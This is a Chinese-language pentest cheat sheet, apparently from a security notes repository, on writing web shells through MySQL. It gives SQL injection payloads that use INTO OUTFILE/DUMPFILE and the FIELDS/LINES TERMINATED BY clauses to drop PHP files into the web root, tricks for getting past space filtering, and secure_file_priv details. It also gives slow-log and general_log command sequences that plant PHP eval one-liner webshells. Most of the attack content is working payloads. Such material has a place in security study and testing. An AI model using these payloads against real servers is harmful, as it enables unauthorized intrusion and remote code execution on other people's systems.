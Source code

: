 ## outfile和dumpfile写shell

### 利用条件 

> 1. 数据库当前用户为root权限；
> 2. 知道当前网站的绝对路径；
> 3. `PHP`的`GPC`为 off状态；(魔术引号，GET，POST，Cookie)
> 4. 写入的那个路径存在写入权限。

### 基于union联合查询：

```bash
?id=1 union select 1,'<?php phpinfo();?>',3 into outfile 'C:\phpstudy\www\shell.php'%23
?id=1 union select 1,'<?php phpinfo();?>',3 into dumpfile 'C:\phpstudy\www\shell.php'%23
```

### 非联合查询

当我们无法使用联合查询时，我们可以使用`fields terminated by`与`lines terminated by`来写shell

```bash
?id=1 into outfile 'C:\phpstudy\www\shell.php' FIELDS TERMINATED BY '<?php phpinfo();?>'%23
```

**代替空格的方法**

+号，`%0a`、`%0b`、`%a0` 、 /**/ 注释符等

### outfile和dumpfile的区别 

`outfile`:

> 1、 支持多行数据同时导出
>
> 2、 使用union联合查询时，要保证两侧查询的列数相同
>
> 3、 会在换行符制表符后面追加反斜杠
>
> 4、会在末尾追加换行

`dumpfile`:

> 1、 每次只能导出一行数据
>
> 2、 不会在换行符制表符后面追加反斜杠
>
> 3、 不会在末尾追加换行

因此，我们可以使用`into dumpfile`这个函数来顺利写入二进制文件;

当然`into outfile`函数也可以写入二进制文件，但是无法生效（追加的反斜杠会使二进制文件无法生效）

当我们使用`dumpfile`，应该手动添加 limit 限制，来获取不同的行数

### secure_file_prive

MySQL的secure-file-prive参数是用来限制LOAD DATA, SELECT ,OUTFILE, and LOAD_FILE()传到哪个指定目录的。

>secure_file_prive= ，结果为空的话，表示允许任何文件读写
>
>secure_file_prive=NULL，表示不允许任何文件读写
>
>secure_file_prive='某个路径'，表示这个路径作为文件读写的路径
>
>在mysql5.5版本前，都是默认为空，允许读取
>
>在mysql5.6版本后 ,默认为NULL，并且无法用`SQL`语句对其进行修改。所以这种只能在配置进行修改。

查询`secure_file_prive`的参数

```
show global variables like "%secure%"
```

利用sql语句修改参数

```
set global secure_file_prive= 
```

但是5.6后不能利用sql修改了，所以只能利用配置修改

```
修改value的值：
windows下修改配置文件：mysql.ini
linux修改配置文件：my.cnf
```

## 日志getshell

###  慢日志getshell

慢日志：

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中。查看服务器默认时间值方式如下：

```
show global variables like '%long_query_time%'
show global variables like '%long%'
```

查看慢日志参数

```
show global variables like '%slow%'
```

![image-20220317103023917](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203171916390.png)

对慢日志参数进行修改

```
set global slow_query_log=1 #打开慢日志
set global slow_query_log_file='c:\\phpstudy\\www\\test.php'#慢日志的路径
注意：一定要用双反斜杠
SELECT '<?php @eval($_POST[1]);?>' or sleep(11)
这儿11是超过慢日志的10秒时间
```

### 利用general_log

利用`general_log`，可以将所有到达mysql服务器的sql语句，都记录下来。

相关参数一共有3个：general_log、log_output、general_log_file

```
show variables like 'general_log';  -- 查看日志是否开启
set global general_log=on; -- 开启日志功能


show variables like 'general_log_file';  -- 看看日志文件保存位置
set global general_log_file='tmp/general.lg'; -- 设置日志文件保存位置


show variables like 'log_output';  -- 看看日志输出类型  table或file
set global log_output='table'; -- 设置输出类型为 table
set global log_output='file';   -- 设置输出类型为file
```

一般log_output都是`file`,就是将日志存入文件中。`table`的话就是将日志存入数据库的日志表中。



**getshell**

```
set global general_log=on
set global general_log_file='需要攻击的路径'
select '<?php eval($_POST[cmd]);?>'
```

这样就将一句话木马记录到`general_log`中，从而getshell

###  binlog的介绍

[可以看看这个](https://blog.csdn.net/Abysscarry/article/details/79949480)
